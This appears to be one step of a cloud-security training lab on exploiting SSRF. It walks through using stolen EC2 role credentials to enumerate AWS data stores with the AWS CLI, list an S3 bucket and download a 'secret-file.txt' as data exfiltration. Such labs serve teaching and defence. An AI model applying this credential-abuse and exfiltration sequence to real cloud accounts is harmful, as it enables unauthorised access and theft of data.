 ## Lateral movement


#### 1. Enumerate data store resources within the account

Now that we have live credentials of the ec2 instance, 
we can begin our reconaissance looking for what else might be in the account.

Remembering our goal is to exfiltrate data, let's see whether we can find any data stores that this ec2 instance might have access to.

```script
    aws rds describe-db-instances --profile ssrf-demo

    aws dynamodb list-tables --profile ssrf-demo
    
    aws s3 ls --profile ssrf-demo
```

The first two calls didn't work, but it seems that this role has the ability to list buckets.  Let's see keep going down this track, and see whether we can find anything further in these buckets.  This process is called `enumeration`. 

<br/>
<br/>

#### 2.  Enumerate all the buckets

Run the below command, substituting `{bucket_name}` for the name of the ec2-metadata bucket returned in the previous step.

```script
    aws s3 ls {bucket_name} --profile ssrf-demo
```

There's another object in here, our `secret-file.txt`.  As an attacker, we might want to download this file.  This process is  called *data exfiltration*. 

<br/>
<br/>

#### 3.  Exfiltrate the data!

Let's download the file locally and examine the contents

```script
    aws s3 cp s3://{bucket_name}/secret-file.txt . --profile ssrf-demo
```

Congratulations, you have just achieved your malicious objective! 

You can now move to [step 4](../step4/README.md)
